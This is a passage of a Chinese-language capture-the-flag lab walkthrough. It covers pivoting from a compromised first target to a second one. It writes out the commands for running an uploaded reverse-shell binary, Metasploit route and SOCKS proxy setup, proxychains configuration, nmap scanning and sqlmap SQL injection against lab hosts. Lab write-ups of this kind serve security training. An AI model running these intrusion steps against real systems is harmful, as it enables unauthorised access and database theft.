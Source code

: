 ```bash
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS16.png)
3、通过蚁剑将shell.elf文件上传到Target1中，并赋予777权限以执行
```bash
(www:/www/wwwroot/ThinkPHP/public) $ chmod 777 shell.elf
(www:/www/wwwroot/ThinkPHP/public) $ ./shell.elf
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS17.png)
4、此时MSF获取到shell，通过meterpreter添加第二层的路由
```bash
run autoroute -s 192.168.22.0/24
run autoroute -p

这一步也可以使用run post/multi/manage/autoroute自动添加路由
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS18.png)
5、在MSF中添加代理，以便让攻击机访问靶机2，经过多次测试，发现MSF使用socks5代理总是失败，因此这里还是采用了socks4
```bash
msf5 > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set srvport 2222
msf5 auxiliary(server/socks4a) > options
msf5 auxiliary(server/socks4a) > run
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS19.png)
6、修改proxychains-ng的配置文件，这里也可以使用proxychains进行代理，不过前者是后者的升级版，因此这里使用proxychains-ng进行代理
```bash
root@kali:~# vim /etc/proxychains.conf
加入以下内容：
socks4 	192.168.1.113 	2222
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS120.png)
7、尝试扫描靶机2，该步骤如果一直提示超时，可以把MSF退出再重新配置
```bash
root@kali:~# proxychains4 nmap -Pn -sT 192.168.22.22
-Pn：扫描主机检测其是否受到数据包过滤软件或防火墙的保护。
-sT：扫描TCP数据包已建立的连接connect
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS21.png)
# 0x03 Target2
## a、获取shell
1、上一步发现存在80端口，因此我们设置好浏览器代理后，打开看看
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS22.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS23.png)
2、拿到站点后，经过简单的信息收集，不难找到robots.txt文件中隐藏的后台地址以及主页源码中给的提示
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS24.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS25.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS26.png)
3、目前为止，步骤就很鲜明了，利用SQL注入找到后台管理员账号密码，那就用sqlmap开整吧
```bash
root@kali:~# proxychains4 sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" -p keyword
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS27.png)
4、已经发现了此站点的数据库为MySQL，使用的Nginx和php，接下来找库
```bash
root@kali:~# proxychains4 sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" -p keyword --dbs
```
